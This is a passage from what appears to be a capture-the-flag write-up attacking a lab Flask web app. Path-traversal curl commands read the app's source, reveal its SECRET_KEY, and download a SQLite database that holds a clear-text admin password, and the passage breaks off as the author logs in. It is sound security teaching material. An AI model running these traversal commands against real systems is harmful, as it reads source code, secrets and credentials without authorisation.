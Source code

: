 For some reason, I can’t read the`environ` file:

    
    
    oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../../proc/self/environ --path-as-is -o- | tr '\000' '\n'
    No such log found!
    

But, I can use `cwd` to get the directory the application is running from, and
guess that the file is `app.py`:

    
    
    oxdf@hacky$ curl -s 10.10.11.127/admin/view/../../proc/self/cwd/app.py --path-as-is
    from flask import Flask, redirect, request, render_template, session, g, url_for, send_file, make_response    
    ...[snip]...
    

#### Flask Source Analysis

From `app.py`, I’ll note:

  * The SECRET_KEY is `SjG$g5VZ(vHC;M2Xc/2~z(`.
  * There’s an `auth.py` as well where the `check` function is imported (or there’s a folder `auth` with `check.py`)

I’ll grab `auth.py` the same way:

[![image-20211106071214604](https://0xdfimages.gitlab.io/img/image-20211106071214604.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211106071214604.png)

This file shows connecting to a `users.db` SQLite file.

I’ll download it with `curl`:

    
    
    oxdf@hacky$ curl --path-as-is -o users.db 'http://10.10.11.127/admin/view/../../../../home/flask/app/users.db'
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  8192  100  8192    0     0   145k      0 --:--:-- --:--:-- --:--:--  145k
    

There’s a single table with a single row with an admin user and a clear text
password:

    
    
    oxdf@hacky$ sqlite3 users.db 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite> .tables
    users
    sqlite> select * from users;
    0|admin|u_will_never_guess_this_password
    

With this, I can log into the site:
